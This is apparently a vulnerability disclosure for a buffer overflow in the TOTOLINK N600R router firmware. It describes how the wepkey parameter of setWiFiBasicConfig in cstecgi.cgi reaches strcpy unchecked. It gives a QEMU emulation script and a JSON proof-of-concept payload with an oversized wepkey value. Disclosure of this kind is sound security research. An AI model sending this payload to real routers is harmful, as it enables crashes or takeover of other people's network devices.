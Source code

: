 # Bug Report: Buffer Overflow in TOTOLINK N600R Router
A buffer overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Buffer Overflow

## Description:
The vulnerable code is within the setWiFiBasicConfig function in cstecgi.cgi. It extracts the `wepkey` parameter into `v13` and passes it into the `strcpy` function. When `wepkey` is specified with excessive data, a buffer overflow occurs.

![alt text](image-3.png)

![alt text](image-2.png)

## poc
We set a breakpoint before the strcpy call and examined the memory state both before and after the out-of-bounds write. The memory dump clearly demonstrates that a buffer overflow occurred.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./wepkey.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi_41E0C0.cgi
```

### wepkey.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_wepkey.cgi  < wepkey.json
```
### wepkey.json
```json
{
        "topicurl" : "UploadCustomModule/setWiFiBasicConfig",
        "ssid" : "1111111111111111111111111111111111111111111111111111111111111",
        "authMode":"OPEN",
        "wepkey":"1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111DOT"
}
```